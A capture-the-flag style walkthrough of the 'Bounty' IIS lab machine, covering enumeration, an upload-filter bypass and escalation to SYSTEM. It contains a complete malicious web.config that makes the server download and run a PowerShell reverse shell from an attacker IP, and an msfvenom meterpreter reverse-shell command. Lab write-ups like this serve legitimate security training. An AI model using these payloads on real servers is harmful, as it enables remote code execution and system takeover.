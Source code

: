 ![Header](images/image0.png)

# Bounty - Penetration Testing Walkthrough (Extended Markdown Report)

This document presents a comprehensive walkthrough of the **Bounty** machine (IP: `10.129.60.101`).  
The report follows the standard penetration testing workflow — from enumeration and web exploitation to shell access and privilege escalation.  
All referenced screenshots are linked as `images/imageX.png` for convenience.

---

## 🧭 Enumeration

We began our assessment with a standard **Nmap** scan to identify open ports and active services on the target:

```bash
nmap -p- -Pn 10.129.60.101 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.60.101 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.60.101 -v --script vuln -oN nmap_vuln.txt
```

![Nmap Scan Results](images/image9.png)

The Nmap results revealed **HTTP (port 80)** as the only open port, running an IIS web server.  
This indicated the target was likely a **Windows-based IIS web application**.

---

## 🌐 Web Enumeration

Visiting `http://10.129.60.101/` displayed a static website:

![Website Screenshot](images/image6.png)

The website contained a **banner image**, which was downloaded for local analysis.  
Running **ExifTool** on the image might reveal metadata or embedded information that could serve as a lead for exploitation.

We also performed directory brute-forcing with **ffuf**:

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://10.129.60.101/FUZZ -s
```

![FFUF Results](images/image11.png)

Several directories were discovered, but the most interesting one was a file upload endpoint at `/transfer`.

---

## 🧩 File Upload Enumeration

We next tested the `/transfer` endpoint for upload functionality and found it allowed **file uploads**, but restricted executable extensions such as `.asp`, `.aspx`, and `.php`.

![Upload Endpoint](images/image5.png)

After discovering this limitation, research led us to a helpful IIS exploitation reference:  
🔗 [Ivoid Warranties: IIS Web.config Exploitation](https://www.ivoidwarranties.tech/posts/pentesting-tuts/iis/web-config/)

This technique allows uploading a malicious **web.config** file that instructs the server to interpret `.config` files as executable ASP scripts.

---

## ⚙️ Crafting the Exploit Payload

To gain a reverse shell, we utilized the **Invoke-PowerShellTcp.ps1** script (part of Nishang framework).  
We modified the last line of the script to call our attacker’s IP:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.30 -Port 4444
```

Then we created a malicious **web.config** file that executes arbitrary PowerShell commands on upload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
  <system.webServer>
    <handlers accessPolicy="Read, Script, Write">
      <add name="web_config" path="*.config" verb="*" modules="IsapiModule"
           scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified"
           requireAccess="Write" preCondition="bitness64" />
    </handlers>
    <security>
      <requestFiltering>
        <fileExtensions>
          <remove fileExtension=".config" />
        </fileExtensions>
        <hiddenSegments>
          <remove segment="web.config" />
        </hiddenSegments>
      </requestFiltering>
    </security>
  </system.webServer>
</configuration>

<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.15.30:8000/Invoke-PowerShellTcp.ps1')")
%>
```

---

## 📡 Exploitation - Upload and Reverse Shell

We hosted the PowerShell script locally using Python:

```bash
python3 -m http.server 8000
```

Then uploaded the `web.config` file through the `/transfer` page.  
Navigating to `/uploadedfiles/web.config` triggered execution.

![Upload Confirmation](images/image3.png)
![Reverse Shell Connection](images/image10.png)
![Shell Output](images/image8.png)

A reverse shell successfully connected back to our listener.  
Inside the shell, we found the **user flag** on the desktop (hidden file, required `ls -force`).

---

## 🧨 Privilege Escalation

To escalate privileges, we generated a **Meterpreter payload** with **msfvenom**:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.15.30 LPORT=4446 -f exe -o shell.exe
```

![Payload Creation](images/image1.png)

We then executed it on the compromised system to gain a more stable shell through **Metasploit**.

With the session established, we used the **local exploit suggester** to identify privilege escalation vectors:

![Local Exploit Suggester Output](images/image7.png)

The tool suggested multiple potential exploits; we executed **#12**, which successfully elevated privileges to **NT AUTHORITY\SYSTEM**.

![SYSTEM Shell](images/image4.png)

---

## 🏁 Root Access

With system-level access achieved, we navigated to the Administrator’s desktop to retrieve the root flag:

```
C:\Users\Administrator\Desktop\root.txt
```

![Root Flag Screenshot](images/image2.png)

---

## ✅ Conclusion

This engagement demonstrated a realistic IIS-based attack chain leveraging file upload misconfigurations and privilege escalation.  
The successful compromise followed this sequence:

1. **Enumeration** — Discovered IIS on port 80.  
2. **Web Discovery** — Found `/transfer` upload endpoint.  
3. **Payload Crafting** — Used malicious `web.config` with PowerShell reverse shell.  
4. **Initial Foothold** — Gained user-level access.  
5. **Privilege Escalation** — Leveraged local exploit via Meterpreter.  
6. **Full Compromise** — Achieved `NT AUTHORITY\SYSTEM` and retrieved the root flag.

---

## 🧰 Summary of Tools & Exploits Used

| **Tool / Technique** | **Purpose** | **Usage Phase** |
|-----------------------|-------------|-----------------|
| **Nmap** | Network and port enumeration | Initial Scanning |
| **ExifTool** | Analyze metadata in web assets | Reconnaissance |
| **ffuf** | Directory brute-forcing | Web Enumeration |
| **Invoke-PowerShellTcp.ps1** | Reverse shell payload | Exploitation |
| **web.config Payload** | IIS web.config-based RCE | Exploitation |
| **Python HTTP Server** | Serve reverse shell payload | Exploitation |
| **msfvenom** | Generate Meterpreter payload | Privilege Escalation |
| **Metasploit (Local Exploit Suggester)** | Identify local privilege escalation | Post-Exploitation |
| **Meterpreter** | Stable post-exploitation shell | Root Access |

---

**User Flag Path:** `C:\Users\merlin\Desktop\user.txt`  
**Root Flag Path:** `C:\Users\Administrator\Desktop\root.txt`

---

